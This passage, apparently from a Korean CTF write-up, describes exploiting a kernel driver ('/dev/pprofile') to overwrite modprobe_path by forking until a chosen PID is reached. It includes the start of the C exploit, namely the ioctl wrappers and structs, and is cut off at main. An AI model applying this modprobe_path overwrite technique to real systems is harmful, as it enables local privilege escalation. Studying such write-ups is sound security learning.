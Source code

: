 여러버 fork 를 해서 자신의 pid가 원하는 값일 때 그 값을 `modprobe_path`에 덮어쓰게 하면 된다. 

원래는 한바이트씩 덮어쓰려고 했는데, 이유는 모르겠지만 5번 이상 쓸 때 앞의 값들이 0으로 초기화 되는 바람에 시간이 조금 걸리겠지만 2byte씩 데이터를 쓰기로 했다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/wait.h>

#define DEVICE_NAME "/dev/pprofile"
#define SET_PROFILE_COMMAND 32
#define REMOVE_PROFILE_COMMAND 64
#define GET_PROFILE_COMMAND 16

struct task
{
    uint64_t reserved;
    uint32_t pid;
    uint32_t length;
};

struct profile {
    char* name;
    struct task* t;
};

int set_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("set profile: open error\n");
        return -1;
    }
    return ioctl(fd, SET_PROFILE_COMMAND, p);
}

int get_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("get profile: open error\n");
        return -1;
    }
    return ioctl(fd, GET_PROFILE_COMMAND, p);
}

int remove_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("remove profile: open error\n");
        return -1;
    }
    return ioctl(fd, REMOVE_PROFILE_COMMAND, p);
}

int main(void)
```